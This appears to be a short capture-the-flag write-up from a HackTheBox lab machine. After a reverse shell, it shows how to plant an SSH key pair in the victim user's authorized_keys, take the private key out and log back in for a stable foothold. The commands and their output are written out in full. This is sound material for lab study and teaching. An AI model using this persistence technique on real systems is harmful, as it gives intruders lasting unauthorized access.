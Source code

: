 After getting a reverse shell, you can choose to stabilize your shell by generating SSH keys on the victim box.

In this case, I will be demonstrating in the [Squashed](../HackTheBox/Squashed.md) box in HackTheBox.

I will be generating ssh key pairs using `ssh-keygen` for the user `alex`.
```console
alex@squashed:/home/alex$ ssh-keygen
ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/alex/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Created directory '/home/alex/.ssh'.
Your identification has been saved in /home/alex/.ssh/id_rsa
Your public key has been saved in /home/alex/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:4KZlt2nolAc7QIPF1QOdejDth4LDZGA+jOZ8JHMz1iI alex@squashed.htb
The key's randomart image is:
+---[RSA 3072]----+
|  oo..o= .       |
| = o= o *        |
|.E=@oo.= o       |
|+ BoBoo.+ .      |
| o ...*oS.       |
|  .  * * o       |
|    . * =        |
|     o +         |
|      .          |
+----[SHA256]-----+
```

Then in `.ssh/`, copy the public key to a file named 'authorized_keys' with the permission of `644`.
```console
$ cd ~/.ssh/
$ cat id_rsa.pub > authorized_keys
$ chmod 644 authorized_keys 
```
The last step is crucial, if you did not do this, you will not be able to authenticate using the private key.

Then I copied the private key (`id_rsa`) to my box and named it `id_rsa_alex`. The permission of the file needs to be set to `600` in order to use it.
```console
$ ssh -i id_rsa_alex alex@$IP

[REDACTED]
Last login: Mon Oct 31 10:19:35 2022 from 10.10.14.12
alex@squashed:~$
```
Now we have a more stable shell.
